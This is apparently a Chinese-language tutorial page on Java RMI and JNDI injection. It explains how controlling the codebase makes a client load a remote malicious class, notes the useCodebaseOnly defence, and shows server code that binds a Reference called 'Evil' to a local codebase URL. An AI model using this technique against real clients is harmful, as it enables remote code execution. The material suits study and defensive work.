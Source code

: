 ### 恶意RMI Remote类

#### 原理

codebase是一个URL、引导JVM查找类的地址

Client在lookup加载过程中会先在本地寻找Stub类，如果没有找到就向codebase远程加载Stub类。

若设置codebase为http://foo.com，加载com.test.Test类时便会下载http://foo.com/com/test/Test.class

那么只要控制Server端的codebase（修改Client端的codebase地址），就能给Client完成注入。

#### 注入步骤

1.攻击者将恶意Remote对象绑定到Server端的Registry
2.Remote类放在服务器上，然后设置Server端的codebase地址（java.rmi.server.codebase属性）
3.Client在lookup时找不到该类就会向远程codebase加载恶意Remote对象

#### 限制

官方基于此攻击手法设置了防御手段，必须满足以下条件才能完成攻击：

`java.rmi.server.useCodebaseOnly为false`

> 从5u45、6u45、7u21、8u121开始，java.rmi.server.useCodebaseOnly的默认值就是true。当该值为true时，将禁用自动加载远程类文件，仅从CLASSPATH和当前VM的java.rmi.server.codebase 指定路径加载类文件。

###  RMI + Reference

上面那个是直接把`恶意的remote对象`放在服务端，下面这个是利用`Reference`绑定了外部的对象，实现一个`JNDI`注入

####  原理:

给`RMIServer`绑定Reference对象，当`RMIClient`通过`JNDI服务的lookup方法`，获取这个对象发现是Reference类型时，RMI服务会返回一个JNDI Naming Reference，受害者解码Reference时会去我们指定的Codebase远程地址加载Factory类，调用getObjectInstance方法，从而实现攻击。这是去加载恶意工厂类实现RCE。当然也可以通过加载一个自定义的恶意类，从而实现一个RCE。

####  实例

**server服务端：**

```java
package JNDI;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class server {
    public static void main(String[] args) throws Exception {
        String url = "http://127.0.0.1:1098/";
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference reference = new Reference("Evil", "Evil", url);
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("hack",referenceWrapper);
        System.out.println("server running");
    }
}

```
